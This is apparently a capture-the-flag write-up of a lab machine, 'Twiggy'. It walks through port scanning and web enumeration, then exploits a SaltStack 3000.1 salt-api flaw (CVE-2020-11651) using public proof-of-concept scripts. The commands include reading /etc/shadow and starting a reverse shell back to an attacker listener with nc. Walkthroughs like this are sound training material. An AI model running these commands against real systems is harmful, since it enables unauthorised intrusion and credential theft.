


Twiggy was an insightful machine focused on exploiting a SaltStack vulnerability. 

The machine required initial enumeration to identify open services, followed by a specific focus on the web service running on port 8000. 

By identifying and leveraging the `salt-api` service, a known exploit for SaltStack 3000.1 was used to gain access and execute a reverse shell. 

This machine provided practical experience in handling and exploiting SaltStack configurations.

# Diagram




## Information Gathering

### Port Scan

---

- `nmap -sS -Pn -n -T4 -p- --open 192.168.177.62`
    
    
    
- `nmap -sVC -Pn -n -p 22,53,80,4505,4506,8000 192.168.177.62`
    
    
    

## Enumeration

### HTTP 8080

---

- [http://192.168.177.62:8000/](http://192.168.177.62:8000/) → *This looks like some clients for the webserver.*
    
    
    

So i decided to try access some url’s that are mistaken on purpose.

- [http://192.168.177.62:8000/local](http://192.168.177.62:8000/local) → *Powered by* CherryPy 5.6.0
    
    
    

- `feroxbuster -u http://192.168.177.62:8000 -k -C 404,403,500  --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -X .php -t 100`
    
    
    

- [http://192.168.177.62:8000/login](http://192.168.177.62:8000/login) → Says “Please log in”
    
    
    

- `curl -X POST http://192.168.177.62:8000/login -d "username=admin&password=admin"` → Unauthorized
    
    
    

- Intercepting the login request in the burp 
    
    
    
    
    
- Verifying the response of the requisition
    
    ```jsx
    HTTP/1.1 200 OK
    Server: nginx/1.16.1
    Date: Thu, 04 Jul 2024 20:29:32 GMT
    Content-Type: application/json
    Content-Length: 43
    Connection: close
    Access-Control-Expose-Headers: GET, POST
    Vary: Accept-Encoding
    Allow: GET, HEAD, POST
    Access-Control-Allow-Credentials: true
    Access-Control-Allow-Origin: *
    Www-Authenticate: Session
    Set-Cookie: session_id=178a37984d63e3d4ea4a4a39d686e300e2256436; expires=Fri, 05 Jul 2024 06:29:32 GMT; Path=/
    X-Upstream: salt-api/3000-1
    
    {"status": null, "return": "Please log in"}
    ```
    
    
    

I also can get the same answer with this command:

- `curl -v -X GET http://192.168.177.62:8000/login`
    
    
    

It have the **`X-Upstream: salt-api/3000-1`.**

## Exploitation

### Salt-API

That information about the requisition, indicates the request was handled upstream by a service identified as `salt-api` version `3000-1`. This suggests the server might be running SaltStack, a configuration management tool.


- Search in the google for `salt-api/3000-1` → There’s an exploit for SaltStack 3000.1
    
    
    

- [https://github.com/jasperla/CVE-2020-11651-poc/tree/master](https://github.com/jasperla/CVE-2020-11651-poc/tree/master)

- `python3 exploit.py -m 192.168.177.62 -r /etc/shadow`
    
    
    

Once that i wanted an reverse shell, this script wasn’t promisor, so i found this one:

- [https://github.com/bravery9/SaltStack-Exp/tree/master](https://github.com/bravery9/SaltStack-Exp/tree/master)

- `python3 exp.py --master 192.168.177.62 -lh 192.168.45.227 -lp 80`
    
    
    

- `rlwrap nc -lvnp 80`
    
    
    

- `flag`
    
    